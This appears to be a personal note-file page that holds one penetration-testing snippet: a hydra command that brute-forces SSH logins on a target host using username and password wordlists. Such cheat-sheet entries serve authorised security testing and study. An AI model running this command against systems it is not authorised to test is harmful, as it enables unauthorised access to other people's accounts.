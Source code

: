 # hydra ssh brute force
```bash
hydra -L users -P passwords -e nsr $IP ssh -t 1
```

` zet/20221003150823/README.md `

# Related


Tags:

    
